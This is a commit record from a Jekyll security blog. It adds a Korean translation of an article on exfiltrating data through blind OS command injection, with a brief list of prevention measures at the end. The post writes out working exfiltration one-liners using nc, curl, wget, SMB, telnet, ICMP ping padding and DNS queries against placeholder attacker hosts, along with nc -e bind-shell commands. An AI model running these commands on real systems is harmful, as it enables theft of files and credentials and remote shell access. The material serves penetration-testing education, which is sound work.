

Before and after one commit to hacktagon/hacktagon.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 1324 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
init
test

````diff
--- /dev/null
+++ b/_posts/2017-03-12-Blind-OSCommandInjection_Persu.md
@@ -0,0 +1,166 @@
+---
+layout: post
+title:  "Blind OS Command Injection"
+tag:   Survey
+categories: IoT system persu
+---
+
+번역 : https://www.contextis.com/resources/blog/data-exfiltration-blind-os-command-injection/
+
+# Blind OS Command Injection을 통한 데이터 추출
+
+## blind OS Command Injection
+사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다.
+
+기본적인 OS Command Injection을 이해 하기 위해서는 아래 URL 참조.
+- https://www.owasp.org/index.php/Command_Injection
+
+<img src="{{ site.url }}/images/2017-03-12/one.png" style="display: block; margin: auto;">
+
+위 그림에서 type이후 시스템 명령 삽입이 가능하다. 하지만 성공 여부는 HTTP Response 메세지 내 노출되지 않게 된다.
+이럴 경우 다른 방식으로 공격자에게 응답을 오도록 한다.
+
+그 예로 ping을 이용한 방법이다.
+- ping -c 5 xxx.xxx.xxx.xxx : 대상 IP에 icmp 메세지를 5번 요청하는 명령어
+
+<img src="{{ site.url }}/images/2017-03-12/two.png" style="display: block; margin: auto;">
+
+위 그림은 다중 명령어를 사용할 수 있는 방법이다.
+상세 내용은 아래 URL을 참고하면 좋다... 개인적으로 이해하기 쉬운 글이었다.
+
+- https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/
+
+지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.
+
+1. NetCat (NC)
+NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.
+
+- 사용법 : https://en.wikipedia.org/wiki/Netcat
+-  nc –l –p {port} < {file/to/extract}
+
+<img src="{{ site.url }}/images/2017-03-12/thr.png" style="display: block; margin: auto;">
+
+ 위 그림 처럼 nc를 이용하여 포트를 열게 되면, netstat -an 명령 시 5555번 포트가 열려 있는 것을 알 수 있다.
+
+```
+persu$ nc -l -p 5555 < /etc/passwd&
+persu$ netstat -an |grep 5555
+tcp4       0      0  *.5555                 *.*                    LISTEN
+```
+5555번 포트 접근 시 실제 /etc/passwd 내용을 확인 할 수 있다.
+
+```
+persu$ nc 127.0.0.1 5555
+##
+# User Database
+##
+nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
+root:*:0:0:System Administrator:/var/root:/bin/sh
+```
+
+이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.
+
+2. cURL
+cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.
+
+- 사용법 : https://en.wikipedia.org/wiki/CURL
+- cat /path/to/file | curl –F “:data=@-“ http://xxx.xxx.xxx.xxxx:xxxx/test.txt
+
+<img src="{{ site.url }}/images/2017-03-12/four.png" style="display: block; margin: auto;">
+
+위 그림에서 사용한 명령어는 cat을 통해 /etc/passwd를 http://xxxxx/text.txt 의 데이터로 사용하게 된다.
+
+또 다른 방법으로는 FTP 프로토콜을 사용하는 방법이다.
+- curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}
+
+<img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">
+위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.
+
+솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...
+
+3. WGET
+Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.
+- 사용법 : https://en.wikipedia.org/wiki/Wget
+- wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
+- –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션
+
+<img src="{{ site.url }}/images/2017-03-12/six.png" style="display: block; margin: auto;">
+
+위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.
+
+추가적으로 사용할 수 있는 명령어는 아래와 같다.
+- wget –header=”evil:`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx
+
+<img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">
+
+- wget –post-data exfil=`cat /data/secret/secretcode.txt` http://xxx.xxx.xxx.xxx:xxxx
+
+<img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">
+
+- wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx
+특정 파일을 post body 영역에 전송하는 명령어
+
+<img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">
+
+4. SMB
+Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.
+- 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
+- net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt
+
+<img src="{{ site.url }}/images/2017-03-12/ten.png" style="display: block; margin: auto;">
+
+잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.
+
+5. TELNET
+TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)
+- 사용법 : https://en.wikipedia.org/wiki/Telnet
+- telnet xxx.xxx.xxx.xxx {port} < {file to transfer}
+
+<img src="{{ site.url }}/images/2017-03-12/eleven.png" style="display: block; margin: auto;">
+
+공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.
+
+6. ICMP
+ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.
+- cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done
+
+<img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">
+
+<img src="{{ site.url }}/images/2017-03-12/14.png" style="display: block; margin: auto;">
+
+이 방식은 ICMP 프로토콜의 특징을 이용한 방법인데, 보통 IP 패킷을 보내기 위해서는 최소 바이트를 작성을 하여 전송해야 한다. ICMP 는 프로토콜 헤더에서 대부분의 서비스를 정의하고 실제로 보내지게 되는 Data에는 OS에서 지정한 잡다한 데이터가 입력되는데 이 부분에 공격자가 지정한 파일의 값을 입력하게 된다. (아주 쌈박함)
+
+그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.
+
+7. DNS
+DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.
+- cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
+
+<img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">
+
+DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.
+
+
+8. 추가 내용
+- nc -l -p 9090 -e cmd.exe (Windows)
+- nc -l -p 9090 -e /bin/bash (*nix)
+
+위 방식을 사용하게 되면, 해당 포트에 접근하여도 -e 옵션을 이용해 바로 쉘을 사용할 수 있게 된다.
+
+```
+Victim :  persu$ nc -l -p 9090 -e /bin/bash
+Attacke : persu$ nc 127.0.0.1 9090
+id
+uid=501(persu)
+```
+
+## Blind OS Command Injection Prevention
+OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.
+
+- 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
+- 사용자 입력 값에 대한 화이트 리스트 기반의 특수문자 필터링 적용
+- 외부로 패킷 전달이 가능한 시스템 명령어 제한(KISA 권고 사항)
+- 낮은 권한의 웹 서비스 데몬 실행
+- 웹 서비스에 대한 정기적인 로그 검토
+
+어찌 됐건.... 공격자에 입장에 있는 나는 유용한 자료였으며, 이 자료를 참고하여 버그 바운티를 하겠댱 빠염!
````
Also changed, not shown: _posts/2017-03-12-LoB_Persu.md (line endings or trailing spaces), images/2017-03-12/13.png (added), images/2017-03-12/14.png (added), images/2017-03-12/15.png (added), images/2017-03-12/16.png (added), images/2017-03-12/eight.png (added), images/2017-03-12/eleven.png (added), images/2017-03-12/five.png (added), images/2017-03-12/four.png (added), images/2017-03-12/nine.png (added), images/2017-03-12/one.png (added), images/2017-03-12/seven.png (added), images/2017-03-12/six.png (added), images/2017-03-12/ten.png (added), 2 more files.
